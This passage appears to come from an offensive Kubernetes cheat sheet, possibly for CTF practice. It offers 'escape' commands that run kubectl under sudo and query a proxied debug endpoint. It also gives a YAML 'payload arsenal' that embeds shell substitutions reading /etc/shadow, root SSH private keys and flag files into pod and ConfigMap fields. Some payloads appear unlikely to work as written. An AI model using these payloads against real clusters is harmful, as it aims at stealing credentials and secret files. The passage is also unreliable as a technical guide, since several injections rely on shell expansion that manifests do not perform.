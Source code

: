 
## 38. Pure WTF Escapes

```bash
sudo kubectl proxy --port=8080 &
wget -qO- http://127.0.0.1:8080/debug/pprof/cmdline

sudo kubectl completion zsh | grep /target/file
```

---

## 39. Evil YAML Payload Arsenal

### Inject File Contents into Metadata

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evil-$(cat /etc/shadow)
spec:
  containers:
  - name: c
    image: busybox
    command: ["sleep", "infinity"]
```

### Abuse Invalid API Versions

```yaml
apiVersion: $(cat /root/flag)
kind: Pod
metadata:
  name: evilpod
```

### Resource Name Injection

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: $(cat /root/.ssh/id_rsa)
data:
  a: b
```

### Multi-Doc Manifest

```yaml
---
apiVersion: v1
kind: ConfigMap
metadata:
  name: evil
data:
  secret: |
    $(cat /target/file)
---
apiVersion: v1
kind: Pod
metadata:
  name: foo
```
